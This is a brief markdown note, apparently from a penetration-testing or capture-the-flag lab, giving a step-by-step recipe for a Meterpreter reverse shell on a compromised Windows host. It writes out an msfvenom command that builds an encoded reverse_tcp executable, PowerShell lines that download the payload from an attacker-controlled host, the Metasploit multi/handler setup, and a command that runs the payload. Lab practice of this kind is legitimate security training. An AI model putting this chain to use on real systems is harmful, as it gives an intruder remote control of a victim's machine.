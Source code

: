 We first create a meterpreter payload

```msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe```

---

We can then download the payload from the compromised box:
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`



`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.0.129:80/pload.exe','pload.exe')"`

---

We need to set up a multi handler listener on metasploit first
`use exploit/multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`
set lhost, lport

---

We can now run the payload on the compromised box
`Start-Process "pload.exe"`



